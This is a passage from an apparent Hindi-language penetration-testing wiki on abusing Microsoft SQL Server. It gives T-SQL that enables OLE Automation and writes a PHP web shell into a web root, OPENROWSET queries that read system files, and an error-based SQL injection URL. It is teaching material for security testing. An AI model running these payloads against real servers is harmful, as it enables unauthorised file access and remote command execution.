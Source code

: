 ### MSSQL trusted Links का दुरुपयोग

[**Read this post**](../../windows-hardening/active-directory-methodology/abusing-ad-mssql.md) **इस फीचर के दुरुपयोग के बारे में अधिक जानकारी के लिए पढ़ें:**

{{#ref}}
../../windows-hardening/active-directory-methodology/abusing-ad-mssql.md
{{#endref}}

### **फ़ाइलें लिखना**

`MSSQL` का उपयोग करके फ़ाइलें लिखने के लिए, हमें [**Ole Automation Procedures**](https://docs.microsoft.com/en-us/sql/database-engine/configure-windows/ole-automation-procedures-server-configuration-option) को **सक्षम करना होगा**, जिसे admin privileges की आवश्यकता होती है, और फिर फ़ाइल बनाने के लिए कुछ stored procedures को execute करना होगा:
```bash
# Enable Ole Automation Procedures
sp_configure 'show advanced options', 1
RECONFIGURE

sp_configure 'Ole Automation Procedures', 1
RECONFIGURE

# Create a File
DECLARE @OLE INT
DECLARE @FileID INT
EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
EXECUTE sp_OADestroy @FileID
EXECUTE sp_OADestroy @OLE
```
### **OPENROWSET के साथ फ़ाइल पढ़ें**

डिफ़ॉल्ट रूप से, `MSSQL` उस ऑपरेटिंग सिस्टम की किसी भी फ़ाइल को पढ़ने की अनुमति देता है जिस पर उस खाते के पास पढ़ने की पहुँच है। हम निम्न SQL query का उपयोग कर सकते हैं:
```sql
SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
```
हालाँकि, **`BULK`** विकल्प के लिए **`ADMINISTER BULK OPERATIONS`** या **`ADMINISTER DATABASE BULK OPERATIONS`** अनुमति की आवश्यकता होती है।
```sql
# Check if you have it
SELECT * FROM fn_my_permissions(NULL, 'SERVER') WHERE permission_name='ADMINISTER BULK OPERATIONS' OR permission_name='ADMINISTER DATABASE BULK OPERATIONS';
```
#### SQLi के लिए Error-based वेक्टर:
```
https://vuln.app/getItem?id=1+and+1=(select+x+from+OpenRowset(BULK+'C:\Windows\win.ini',SINGLE_CLOB)+R(x))--
```
### **RCE/Read files executing scripts (Python and R)**
